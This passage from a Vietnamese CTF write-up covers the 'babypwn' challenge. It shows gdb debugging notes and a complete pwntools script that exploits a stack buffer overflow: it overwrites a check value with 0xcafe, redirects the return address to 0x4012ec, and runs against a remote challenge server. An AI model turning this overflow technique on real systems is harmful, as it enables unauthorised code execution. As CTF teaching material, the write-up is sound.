 Save và chạy lại đoạn script, trong trình gdb `n` liên tục thì sẽ thây lúc này chương trình đã nhảy vào hàm `helloUser`  

![image](https://user-images.githubusercontent.com/74854445/134931648-481d860e-a89b-469e-80b7-9ce08b7a34cc.png)

Thăm dò vị trí của `return address` tương tự như trên rồi viết thêm payload cho input của hàm `helloUser` là sẽ được script hoàn chỉnh như sau

## Script Exploit  

```py  
from pwn import *

#Dòng này sẽ giúp tin nhận hay gửi tin trong quá trình chạy script sẽ được in hết ra màn hình không cần phải dùng print() nữa
context.log_level = 'debug'

#Đoạn này dùng khi tương tác với file binary
#elf = ELF("./babypwn")
#p = elf.process()

#Đoạn này dùng khi tương tác với server
host = "185.239.107.54" 
port = 7010
p = remote(host,port)
 
p.recvuntil("\n")
p.recvuntil("\n")
p.recvuntil("\n")
p.recvuntil("\n")
p.recvuntil("\n")
p.recvuntil("\n")
p.recvuntil("\n")
p.recvuntil("\n")

payload = [
	b"A"*28,
	p64(0xcafe)
]

payload = b"".join(payload)

payload2 = [
	b"a"*128,
	b"A"*8, 
	p64(0x4012ec)
]

payload2 = b"".join(payload2)

#Khi tương tác với server thì phải bỏ gdb.attach đi
#gdb.attach(p, """b *helloUser""")

p.sendline(payload)
p.sendline(payload2)
p.interactive()
```





